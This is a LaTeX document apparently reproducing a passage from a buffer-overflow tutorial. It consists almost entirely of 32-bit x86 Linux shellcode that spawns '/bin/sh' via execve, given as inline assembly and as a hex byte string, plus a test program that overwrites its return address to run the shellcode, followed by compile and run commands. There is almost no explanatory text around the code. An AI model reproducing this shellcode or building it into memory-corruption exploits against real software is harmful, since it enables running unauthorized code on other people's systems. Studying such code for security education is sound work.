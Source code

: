 \documentclass[a4paper]{article}
\begin{document}
Our improved code:

\begin{listing}[H]
\begin{verbatim}

void main() {
__asm__("
    jmp    0x1f                     # 2 bytes
    popl   %esi                     # 1 byte
    movl   %esi,0x8(%esi)           # 3 bytes
    xorl   %eax,%eax                # 2 bytes
	movb   %eax,0x7(%esi)		# 3 bytes
    movl   %eax,0xc(%esi)           # 3 bytes
    movb   $0xb,%al                 # 2 bytes
    movl   %esi,%ebx                # 2 bytes
    leal   0x8(%esi),%ecx           # 3 bytes
    leal   0xc(%esi),%edx           # 3 bytes
    int    $0x80                    # 2 bytes
    xorl   %ebx,%ebx                # 2 bytes
    movl   %ebx,%eax                # 2 bytes
    inc    %eax                     # 1 bytes
    int    $0x80                    # 2 bytes
    call   -0x24                    # 5 bytes
    .string \"/bin/sh\"             # 8 bytes
				# 46 bytes total
");
}

\end{verbatim}
\caption{shellcodeasm2.c}
\label{listing:1}
\end{listing}

And our new test program:

\begin{listing}[ht]
\begin{verbatim}

char shellcode[] =
	"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
	"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
	"\x80\xe8\xdc\xff\xff\xff/bin/sh";

void main() {
	int *ret;

	ret = (int *)&ret + 2;
	(*ret) = (int)shellcode;

}

\end{verbatim}
\caption{testsc2.c}
\label{listing:1}
\end{listing}


\begin{lstlisting}[style=DOS]
gcc -o testsc2 testsc2.c
\end{lstlisting}

\begin{lstlisting}[style=DOS]
./testsc2
\end{lstlisting}
\end{document}
